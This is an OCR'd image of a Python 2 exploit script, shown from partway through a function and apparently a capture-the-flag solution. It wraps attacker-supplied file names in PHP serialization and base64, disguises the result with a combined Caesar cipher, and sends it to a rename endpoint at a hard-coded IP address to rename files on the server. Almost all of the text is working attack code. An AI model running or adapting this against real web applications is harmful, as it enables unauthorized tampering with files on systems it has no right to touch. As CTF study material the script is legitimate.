 ~~~python
    string_new = ''
    for s in string:
        string_new += change(s,i)
    return string_new


def main(string):
    # 获取凯撒位移6的加密内容
    kaisa_6 = kaisa(string,6)
    # 获取凯撒位移20的加密内容
    kaisa_20 = kaisa(string,20)

    code = ""
    for x in range(0,len(kaisa_6)):
        kaisa_6_ord = ord(kaisa_6[x])
        kaisa_20_ord = ord(kaisa_20[x])

        #判断凯撒位移20的是否是小写的值，是的话就加上
        if kaisa_20_ord >= 97 and kaisa_20_ord <= 122:
            code += str(kaisa_20[x])
        else:
            code += str(kaisa_6[x])
    return code

def request(code):
    import re
    import requests
    url = "http://139.129.108.53:3366/web-03/index.php?do=rename&re=%s" % (code)
    check = "http://139.129.108.53:3366/web-03"
    try:
        response  = requests.get(url, verify=False, timeout=5)
        reg = "rename\!\.(.*?)</body"
        path = re.findall(reg,response.content)
        if len(path) >= 1:
            print check+path[0]
    except Exception,e:
        print(e)

if __name__ == '__main__':
    if len(sys.argv) >= 2:
        lists = [sys.argv[1],sys.argv[2]]      #重命名
        # lists = {1:sys.argv[1], 2:sys.argv[2]}  #合并
        # print phpserialize.dumps(lists)
        string = base64.b64encode(phpserialize.dumps(lists))
        code = main(string)
        request(code)
    else:
        print(u'sys')
~~~



